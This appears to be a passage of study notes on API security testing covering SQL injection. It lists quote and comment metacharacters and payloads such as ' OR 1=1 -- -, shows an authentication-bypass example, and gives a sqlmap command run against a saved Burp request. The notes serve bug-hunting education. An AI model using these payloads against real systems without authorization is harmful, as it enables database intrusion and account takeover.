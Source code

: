 #### Manual approach
###### Manually Submitting Metacharacters
Metacharactes in SQL are characters that have special meaning on the SQL language

Here are some SQL metacharacters that can cause some issues: 
```
'
'' 
"" 
````
in SQL Quotes and single quotes are used to indicate the ending of the liner. Single and double quotes can be used to escape the current query to cause an error or to append your own SQL query.
```
;%00 
````
%00 could cause a verbose SQL-related error to be sent as a response
```
-- 
-- - 
````
The dashes (--) represent the beginning of a single-line comment.
```
;
' OR '1 
' OR 1 -- - 
" OR "" = " 
" OR 1 = 1 -- - 
' OR '' = '
OR 1=1
```
. The OR 1=1 is a conditional statement that literally means “or the following statement is true,” and it results in a true condition for the given SQL query.
###### Example
Imagine you got a backend where in the registration process do the following thing:
```
SELECT * FROM userdb WHERE username = 'hAPI_hacker' AND password = 'Password1!'
```
as the backend is doing this process with every registration in the user input, you could write the password that you want:
```
SELECT * FROM userdb WHERE username = 'hAPI_hacker' OR 1=1-- -
```
So this will always return true and then you could skip the password requirement. This example is extremely classic and possibly don't work in bug hunting as easy as that. 

#### Automatized approach

For this we save a burpsuite request in a file, such as `/home/hapihacker/burprequest1`. You can find SQL weakness by sending multiple SQL inputs and then analyzing the response looking for anomalous, like “The SQL database is unable to handle your request . . .” for example. So the one liner on **SQLmap** would look like this:
```
sqlmap -r /home/hapihacker/burprequest1 -p password
```
- **`-r` Option in SQLmap**:
    